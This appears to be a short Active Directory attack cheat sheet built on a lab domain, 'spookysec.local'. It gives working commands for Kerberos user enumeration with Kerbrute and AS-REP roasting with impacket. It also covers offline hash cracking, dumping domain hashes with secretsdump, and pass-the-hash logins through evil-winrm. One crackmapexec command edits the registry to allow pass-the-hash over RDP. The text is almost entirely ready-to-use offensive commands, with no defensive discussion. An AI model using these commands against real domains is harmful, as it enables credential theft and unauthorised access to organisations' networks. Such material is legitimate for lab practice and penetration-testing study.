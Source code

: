  Here is an example to enum users : (previously associated domain with ip on /etc/hosts file)
 ```shell
 /opt/Kerbrute/kerbrute userenum --safe -d 'spookysec.local' --dc 'spookysec.local'  userlist.txt 
 ```
 
 
 ## Kerberos attacks
 
 #### ASReproasting
 
 For this attack we need a user with the privilege "Does not require Pre-Authentication".
 
 We will use GetNPUsers.py from impacket. For this one we only need valid username list.
 
 Here is an example:
 
 ```shell
 impacket-GetNPUsers -usersfile validsusername -dc-ip 10.10.44.4 spookysec.local/
 ```
 
 Then you can crack passwords using `john` or `hashcat (-m 18200)`
 
 
 ## Privesc
 
 #### Secretsdump
 
 We can use secretsdump from impacket to dump every hashes the account have in memory. It will be efficient if the account is the domain controller default one. To dump them we need the function **DRSUAPI** available.
 
 From local : 
 ```bash
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```

From remote :

```bash
secretsdump.py -just-dc-ntlm domain/user:password@IP
secretsdump.py -just-dc-ntlm domain/user:@IP-hashes LMHASH:NTHASH
```

#### Path the hash

We can use different tools to perform this attack. We just need the account NTLM hash.

- Using Evil Winrm:
`ruby evil-winrm.rb -i IP -u user -H NTLM_hash`

- Using RDP :

	Enable the signin on admin account : 

	`poetry run crackmapexec smb IP -u user -H NTLM_hash -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'`

	Then login :

	`xfreerdp /v:IP /u:user /pth:NTLM_hash`
